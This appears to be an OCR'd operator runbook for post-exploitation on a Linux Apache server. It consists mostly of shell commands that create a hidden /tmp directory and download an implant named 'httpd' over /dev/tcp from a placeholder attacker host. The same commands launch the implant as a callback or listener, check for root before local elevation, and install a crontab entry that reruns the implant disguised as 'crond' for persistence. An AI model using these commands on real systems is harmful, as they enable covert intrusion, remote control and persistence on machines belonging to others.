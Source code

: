 
## Look ok? Our temp dir below not there yet? Then this whole block
mkdir -p /tmp/.httpd-lock; chmod 700 /tmp/.httpd-lock; ls -lctra /tmp
cd /tmp/.httpd-lock; pwd
ls -alrt

## Now upload to target (be sure listener and tunnels are ok)
cat</dev/tcp/PITCH_IP/NETCAT_PORT1>httpd ; ls -la

chmod 700 httpd
netstat -an | egrep "LISTEN|3275"

## CALLBACK? Set up for callback:
-nrtun NOPENPORT
D=-cPITCH_IP:NOPENPORT PATH=. httpd

## LISTENER?
PATH=. httpd
-nstun TARGET_IP

##############################################
###   REMOTE - first (apache) NOPEN window
###   LOCAL ELEVATION
##############################################
## 
##

## If we're lucky and already root you can skip local elevate
## (use eventstart - ptrace won't work on RH9)
id

## OPTIONAL, just in case EVENTSTART bounces box, you can 
## start a cron job to call nopen in case of a reboot (if you won't
## be able to reexploit) set the time to remove itself to the next
## hour (use both local and UTC time)

vi /current/down/crontab:
0,5,10,15,20,25,30,35,40,45,50,55 * * * * sh -c "D=-cPITCH_IP:NOPENPORT /tmp/.httpd-lock/crond"
0 1,17 * * * crontab -r

